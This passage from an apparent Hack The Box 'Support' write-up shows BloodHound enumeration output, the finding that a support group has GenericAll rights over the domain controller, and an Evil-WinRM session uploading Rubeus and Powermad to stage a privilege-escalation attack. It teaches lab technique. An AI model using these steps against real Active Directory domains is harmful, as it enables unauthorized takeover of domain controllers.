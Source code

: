 ```bash
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Management.support.htb
INFO: Querying computer: dc.support.htb
INFO: Done in 00M 15S
```
# Privilege Escalation
From bloodhound, we can see that the user ```support``` is part of the ```SHARED SUPPORT ACCOUNTS``` which has GenericAll permissions on ```DC.SUPPORT.HTB```. That means we can own the domain controller using a tool like Rubeus, using a powershell session with the user ```support``` which we already have as we were able to login using ```evil-winrm```.


```bash
*Evil-WinRM* PS C:\Users\support\Documents> cd C:\
*Evil-WinRM* PS C:\> mkdir temp


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         5/24/2025   5:09 AM                temp


*Evil-WinRM* PS C:\> cd temp
*Evil-WinRM* PS C:\temp> upload Rubeus.exe
                                        
Info: Uploading /home/kali/HTB/Support/Rubeus.exe to C:\temp\Rubeus.exe
                                        
Data: 595968 bytes of 595968 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\temp> upload Powermad.ps1
                                        
Info: Uploading /home/kali/HTB/Support/Powermad.ps1 to C:\temp\Powermad.ps1
                                        
Data: 180768 bytes of 180768 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\temp> . .\Powermad.ps1
```

We create a temp directory in C:\ so we have all RWX (right,write,execute) rights.
We upload Rubeus.exe and Powermad.ps1
For further information on Powermad.ps1 visit [https://offsec.tools/tool/powermad](https://offsec.tools/tool/powermad).
